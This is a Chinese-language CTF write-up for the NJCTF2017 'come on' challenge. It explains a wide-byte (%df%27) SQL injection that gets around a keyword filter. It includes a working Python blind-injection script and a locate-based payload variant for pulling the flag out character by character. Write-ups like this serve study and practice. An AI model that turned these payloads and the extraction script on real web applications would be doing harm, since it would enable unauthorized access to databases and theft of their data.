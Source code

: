 ```yaml
---
title: "NJCTF2017--come on"

---
```



## come on

这个题是宽字节注入，司空见惯，但做出来的人不多，究其原因就是漏洞隐藏的挺深，并且观察的不够仔细。我是比赛后看的这道题，趁着这个机会刚好把sql注入复习一下。



### 题目逻辑

只有1个输入框，那么我们先搜集一下信息

- key=1，返回5条数据
- key= ， 返回9条数据
- key=asd， 返回0条数据

…………

- key=1' and 1=1#，响应中有9条数据，并观察到302跳转



用burp的intruderfuzz一下，可以看到

![](http://o6uyyks1m.bkt.clouddn.com//NJCTF/NJCTF1.PNG)

![](http://o6uyyks1m.bkt.clouddn.com//NJCTF/njctf2.PNG)

可以看到and，or，substr，mid，空格等等都被过滤了，但是select，括号，binary，locate等等都没被过滤。

因为我是事后做的题，所以测试的目的性更强一些。

后台逻辑我们也已经理清楚了：

- 输入1，2，3正常数字后台进行模糊查询，返回查询结果
- 当你的查询字符串包含敏感词，后台将查询字符串置空，返回查询结果，也就是全部数据



但为什么是宽字节注入呢？这就看你想到想不到了。



### 漏洞利用

这里又是学习学习了一波



主要有两种利用方法：

- 用 left 和 right 截取字符串
- 用 locate 或者 position 截取字符串



第一种是官方推荐的，脚本也挺好写：



```python
#coding:utf-8
import requests

flag = []
session = requests.Session()

def get_flag(url):
    payload = "?key=112%df%27||binary(right(left((select(flag)from(flag)),{pos}),1))={hex}%23"
    for i in range(1,33):
        for j in range(32,127):
            suffix = payload.format(pos=str(i), hex=hex(j))
            page = session.get(url=url+suffix)
            if "002265" in page.text:
                flag.append(chr(j))
                print(''.join(flag))

if __name__ == '__main__':
    url = "http://218.2.197.235:23733/index.php"
    get_flag(url)
```



第二种不过是换个函数locate，依然是截取字符串。



- locate( target, string )           返回target在string中第一次出现的位置
- locate( target, string, pos )  返回target在string的pos位置之后第一次出现的位置



把上面脚本的payload改成



```python
payload = "?key=112%df%27||locate(binary({hex}), (select(flag)from(flag)),{first_pos})={next_pos}%23"
```



当同一个字符在flag串中出现多次，就要进行多次判断。总的来说请求次数会比第一种方法少很多，但程序写起来会繁琐很多。



### 复习收获

- 平常见的宽字节注入当你查看源码是会看到 "charset=gbk"，这个题目就没有，还是我们too young too simple
- or 用 || 替换
- binary 用来 区分大小写
- \# 与 %23
- mysql_real_escape_string 和 addslashes 的宽字节注入问题
